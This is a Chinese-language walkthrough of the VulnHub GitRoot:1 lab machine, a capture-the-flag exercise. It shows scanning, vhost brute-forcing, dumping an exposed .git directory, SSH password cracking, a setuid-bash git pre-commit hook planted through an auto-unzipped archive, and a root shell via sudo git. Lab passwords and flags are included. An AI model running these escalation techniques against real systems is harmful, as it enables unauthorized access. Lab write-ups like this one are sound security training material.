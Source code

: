 # GitRoot：1

2025.03.01 https://www.vulnhub.com/entry/gitroot-1,488/

[video](https://www.bilibili.com/video/BV1GtXZYsEHz/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
11211/tcp open  memcache
```

先扫一下 80 web，http://192.168.5.40/index.html 中提示:

```
Hey Jen, just installed wordpress over at wp.gitroot.vuln
please go check it out!
```

添加 wp.gitroot.vuln 到 hosts 文件，再访问 http://wp.gitroot.vuln/ 底部显示 wordpress ，先用 wpscan 进行扫描，WordPress version 5.0.4，只枚举到一个用户: beth , 插件 akismet 4.1 没有有效利用。

暂时不想用 rockyou 进行爆破，看看 memcache 中是否能拿到登陆密码，尝试之后没有信息。

只好使用 wpscan 进行 beth 的爆破，也没有结果。

联想到添加了自定义的域名可能有 vhost，尝试爆破一下：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain gitroot.vuln -u http://192.168.5.40

Found: repo.gitroot.vuln Status: 200 [Size: 438]
```

将 repo.gitroot.vuln 添加到 hosts 中，访问 http://repo.gitroot.vuln/ 上面显示两个可以访问连接，欢迎随意在 get.php 上搜索我们的代码库或在 set.php 中设置代码，访问这两个页面没看出什么信息，使用 gobuster 扫描一下这个域名发现 http://repo.gitroot.vuln/.git 使用 githack 将代码脱下来：

```
python3 ~/Documents/GitHack/GitHack.py http://repo.gitroot.vuln/.git
```

查看源代码，其中 http://repo.gitroot.vuln/stats.php 可以访问到 memcached 的状态，set.php 可以设置数据到 memcached，get.php 可以获得存储 key 对应的 value。

同时发现另外一个文件 33513a92c025212dd3ab564ca8682e2675f2f99bba5a7f521453d1deae7902aa.txt：

```
pablo_S3cret_P@ss
beth_S3cret_P@ss
jen_S3cret_P@ss
```

像是密码，使用之前得到的 beth 用户在爆破一下，不是 wordpress 和 ssh 的登陆密码。同时看到了另外的一个用户名 pablo , 在爆破一下这个用户的 ssh 密码吧，很长一段时间过去后，找到了登陆密码 mastergitar

登陆后，先拿到了 user flag：

```
pablo@GitRoot:~$ cat user.txt

  _______ _                 _                          _____      _     _
 |__   __| |               | |                        |  __ \    | |   | |
    | |  | |__   __ _ _ __ | | __  _   _  ___  _   _  | |__) |_ _| |__ | | ___
    | |  | '_ \ / _` | '_ \| |/ / | | | |/ _ \| | | | |  ___/ _` | '_ \| |/ _ \
    | |  | | | | (_| | | | |   <  | |_| | (_) | |_| | | |  | (_| | |_) | | (_)
    |_|  |_| |_|\__,_|_| |_|_|\_\  \__, |\___/ \__,_| |_|   \__,_|_.__/|_|\___/
                                    __/ |
                                   |___/


Great job! Do not falter, there is more to do. You made it this far, finish the race!

"It's not that I'm so smart. Its just that I stay with problems longer." - Albert Einstein

8a81007ea736a2b8a72a624672c375f9ac707b5e
```

发现了另外一个提示，message.txt 文件的所有者是 beth：

```
pablo@GitRoot:~/public$ cat message.txt
Hey pablo

Make sure to check-out our brand new git repo!
```

提示说找到新的 repo，经过枚举，发现 /opt/auth/.git，发现了很多 branch，进入到 /opt/auth/.git/logs/refs/heads 中，发现这个 branch 的大小与其他不同：dev-43 查看它的提交记录：

```
pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ cat dev-43
0000000000000000000000000000000000000000 fc9901f3b6b303d6ad40cdb71689f1646904f7b3 Your Name <you@example.com> 1590499965 -0400	branch: Created from HEAD
fc9901f3b6b303d6ad40cdb71689f1646904f7b3 b2ab5f540baab4c299306e16f077d7a6f6556ca3 Your Name <you@example.com> 1590500014 -0400	commit: init repo
b2ab5f540baab4c299306e16f077d7a6f6556ca3 06fbefc1da56b8d552cfa299924097ba1213dd93 Your Name <you@example.com> 1590500148 -0400	commit: added some stuff
06fbefc1da56b8d552cfa299924097ba1213dd93 aaa283c708d79c692797339434664f4ba7accb25 Your Name <you@example.com> 1590500197 -0400	commit: init repo

pablo@GitRoot:/opt/auth/.git/logs/refs/heads$ git show 06fbefc1da56b8d552cfa299924097ba1213dd93
+        if (strcmp(pass, "r3vpdmspqdb") == 0 ){
+                char *cmd[] = { "bash", (char *)0 };
+                execve("/bin/bash", cmd, (char *) 0);
+        }

```

或者这样操作：

```
git checkout dev-43
git show
```

发现了一个密码 r3vpdmspqdb 可能是其中一个用户的，进行 su 切换验证，发现是 beth 用户的密码。

同时发现另外一个提示：

```
beth@GitRoot:~$ cd public/
beth@GitRoot:~/public$ ls
addToMyRepo.txt
beth@GitRoot:~/public$ cat addToMyRepo.txt
Hello Beth

If you want to commit to my repository you can add a zip file to ~jen/public/repos/ and ill unzip it and add it to my repository

Thanks!
```

根据提示说添加一个 zip 到 jen/public/repos/ 它会自解压，然后提交到自己的 repo 中，这个文件是 jen 用户创建的。

看看能不能在 git 上得到提权的路径，使用钩子进行提权（钩子的原理：当你执行一个 Git 命令（如 git commit 或 git push）时，Git 会首先检查".git/hooks"目录下是否存在对应的 hook 脚本，如果存在，则会触发执行这个脚本。）：

```
cd /tmp
mkdir repo
cd repo
git init
echo 'cp /bin/bash /tmp/jenbash; chmod +xs /tmp/jenbash' > ".git/hooks/pre-commit"
chmod 777 ".git/hooks/pre-commit"
7z a rev.zip .git
cp rev.zip /home/jen/public/repos/
```

等待 1 分钟在 tmp 目录下发现 jenbash ：

```
beth@GitRoot:/tmp/repo$ /tmp/jenbash -p
jenbash-5.0$ id
uid=1001(beth) gid=1001(beth) euid=1003(jen) egid=1003(jen) groups=1003(jen),1001(beth)
```

同时看到了解压的脚本：

```
jen@GitRoot:~/private$ cat add.sh
cat add.sh
rm -rf /home/jen/private/repo/.git/
cd /home/jen/private/repo/
git init
7za x -aos -o/home/jen/private/repo/ ~jen/public/repos/*
git add .
git commit --allow-empty -m "Thanks beth!"
rm -f /home/jen/public/repos/*
```

在 .viminfo 中发现了疑似的密码：

```
# Search String History (newest to oldest):
?/binzpbeocnexoe
|2,1,1590471908,47,"binzpbeocnexoe"
```

可能是 jen 或者是 root 用户的密码 sudo -l 输入 binzpbeocnexoe 显示 (ALL) /usr/bin/git ，现在可以直接提权到 root 了：

```
sudo -u root git help config
输入: !/bin/bash
```

得到了 root 权限，拿到 root flag：

```
root@GitRoot:~# cat root.txt

Thank you for completing my box! Please let my know what you liked and what you didn't like at my twitter @Recursive_NULL

734ae32be131cd0681f86c03858f4f587a3c69ce
```

